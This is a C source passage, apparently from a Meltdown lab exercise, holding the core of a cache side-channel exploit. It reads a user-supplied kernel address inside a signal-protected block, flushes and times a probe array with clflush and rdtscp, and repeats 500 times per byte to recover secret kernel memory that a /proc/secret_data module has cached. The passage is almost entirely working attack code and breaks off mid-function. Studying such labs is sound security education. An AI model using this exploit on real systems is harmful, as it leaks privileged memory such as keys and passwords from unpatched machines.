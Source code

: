 ```c
    printf("(in 64-bit hex): ");
    scanf("%llx", &address); 

    char message[length + 1];
    message[length] = '\0';
    int fp;
    int sig;
    char data;
    int temp = 0;
    unsigned char *addr;
    unsigned long int basetime;
    unsigned long int mtime;
    int max;
    int bytec;

    int counter[256];

    for(bytec = 0; bytec < length; bytec ++){ // length bytes in total need to be read

        if((fp = open("/proc/secret_data", O_RDONLY)) < 0)
            return -1;
        
        memset(counter, 0, sizeof(counter));

        // clear cache
        for(int i = 0; i < 256; i ++) array[i * 4096 + OFFSET] = 1;
        for(int i = 0; i < 256; i ++) _mm_clflush(&array[i * 4096 + OFFSET]);

        for(int i = 0; i < 500; i ++){ // for every byte, try 500 times to increase possibility of success
            if((sig = pread(fp, NULL, 0, 0)) < 0) // put secret data in cache
                return -1;
             
            // clear cache
            for(int j = 0; j < 256; j ++) _mm_clflush(&array[j * 4096 + OFFSET]);

            if(sigsetjmp(jbuf, 1) == 0){
                asm volatile(
                    ".rept 400;"            
                    "add $0x141, %%eax;"
                    ".endr;"                    
                
                    :
                    :
                    : "eax"
                ); //magic

                data = *(char *)(address + bytec); // exception!
                array[data * 4096 + OFFSET] = 1;
            }

            for(int i = 0;i < 256;++ i){        // measure access time
                addr = &array[i * 4096 + OFFSET];
                basetime = __rdtscp(&temp);
                temp = *addr;
                mtime = __rdtscp(&temp) - basetime;
                if(mtime < CACHE_HIT_TIME)
                    counter[i] ++;              // counter tracks cache hit times
            }

        }

        max = 0;
```
